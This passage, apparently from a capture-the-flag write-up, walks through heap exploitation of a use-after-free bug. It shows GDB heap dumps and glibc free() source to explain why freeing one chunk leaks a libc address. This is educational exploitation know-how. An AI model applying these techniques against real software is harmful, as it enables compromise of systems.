 ```makefile
0x617ce0:   0x0000000000000000  0x0000000000000000
0x617cf0:   0x0000000000000000  0x0000000000000000
0x617d00:   0x0000000000000000  0x0000000000000000
0x617d10:   0x0000000000000000  0x0000000000000000
0x617d20:   0x0000000000000000  0x0000000000000000
0x617d30:   0x0000000000000000  0x00000000000202d1 <-- top chunk
```

Looks good so far. So once an allocation takes place, we get to choose the size of the chunk and then we enter a description for it (no overflow).

With just those 2 allocated chunks we can get a libc leak thanks to the UAF bug. We'll free `chunk 0` in order to make that happen. Why not free `chunk 1` you ask? Let's have a look at `free`'s source code and find out ourselves.

```c
static void
_int_free (mstate av, mchunkptr p, int have_lock)

                [...]

/*
   If the chunk borders the current high end of memory,
   consolidate into top
*/

else {
   size += nextsize;
   set_head(p, size | PREV_INUSE);
   av->top = p;
   check_chunk(av, p);
}

                [...]
```

Fortunately `free`'s source code is well documented so just by reading the above code and with a quick assumption test in GDB we can translate this to something intuitive.

```makefile
gef➤  x/40gx 0x0000000000617c20 - 16
0x617c10:   0x0000000000000000  0x0000000000000091 <-- chunk 0
0x617c20:   0x4141414141414141  0x00000000000a4141
0x617c30:   0x0000000000000000  0x0000000000000000
0x617c40:   0x0000000000000000  0x0000000000000000
0x617c50:   0x0000000000000000  0x0000000000000000
0x617c60:   0x0000000000000000  0x0000000000000000
0x617c70:   0x0000000000000000  0x0000000000000000
0x617c80:   0x0000000000000000  0x0000000000000000
0x617c90:   0x0000000000000000  0x0000000000000000
0x617ca0:   0x0000000000000000  0x0000000000020361 <-- new top chunk
0x617cb0:   0x4242424242424242  0x00000000000a4242
0x617cc0:   0x0000000000000000  0x0000000000000000
0x617cd0:   0x0000000000000000  0x0000000000000000
0x617ce0:   0x0000000000000000  0x0000000000000000
0x617cf0:   0x0000000000000000  0x0000000000000000
0x617d00:   0x0000000000000000  0x0000000000000000
0x617d10:   0x0000000000000000  0x0000000000000000
0x617d20:   0x0000000000000000  0x0000000000000000
0x617d30:   0x0000000000000000  0x00000000000202d1
```
